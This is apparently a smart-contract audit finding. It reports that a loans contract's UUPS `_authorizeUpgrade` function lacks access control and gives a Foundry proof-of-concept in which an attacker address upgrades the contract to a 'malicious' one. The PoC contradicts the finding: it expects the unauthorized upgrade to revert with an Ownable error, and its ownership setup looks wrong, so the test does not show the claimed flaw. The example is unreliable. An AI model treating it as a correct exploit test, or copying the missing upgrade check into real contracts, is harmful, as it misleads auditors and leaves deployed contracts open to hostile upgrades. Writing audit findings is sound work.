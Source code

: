 ### **Description:**
The `_authorizeUpgrade` function, inherited from the UUPSUpgradeable contract in OpenZeppelin, **lacks proper authorization checks**. Without these checks, **any user** can call the `upgradeTo` function to upgrade the contract. This creates a significant vulnerability, as unauthorized users could potentially upgrade the contract to malicious code.
According to [OpenZeppelin's official documentation](https://github.com/OpenZeppelin/openzeppelin-contracts-upgradeable/blob/789ba4f167cc94088e305d78e4ae6f3c1ec2e6f1/contracts/proxy/utils/UUPSUpgradeable.sol#L122-L131), the `_authorizeUpgrade` function must include authorization logic to ensure only authorized users (typically the owner) can perform upgrades.


### POC

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "../src/HalbornLoans.sol";
import "openzeppelin-contracts-upgradeable/contracts/proxy/utils/UUPSUpgradeable.sol";

contract MaliciousUpgrade is HalbornLoans {
    function getMaliciousData() public pure returns (string memory) {
        return "This is malicious code!";
    }
}

contract HalbornLoansTest is Test {
    HalbornLoans loanContract;
    MaliciousUpgrade maliciousContract;
    address owner = address(1);
    address attacker = address(2);

    function setUp() public {
        // Deploy the original contract
        loanContract = new HalbornLoans(1 ether);
        loanContract.initialize(address(0), address(0));

        // Deploy the malicious contract
        maliciousContract = new MaliciousUpgrade();

        // Set up the contract with the owner
        vm.startPrank(owner);
        loanContract.transferOwnership(owner);
        vm.stopPrank();
    }

    function testUnauthorizedUpgrade() public {
        // Simulate attacker attempting to upgrade the contract
        vm.startPrank(attacker);
        vm.expectRevert("Ownable: caller is not the owner");
        loanContract.upgradeTo(address(maliciousContract)); // Unauthorized upgrade attempt
        vm.stopPrank();
    }
}

```
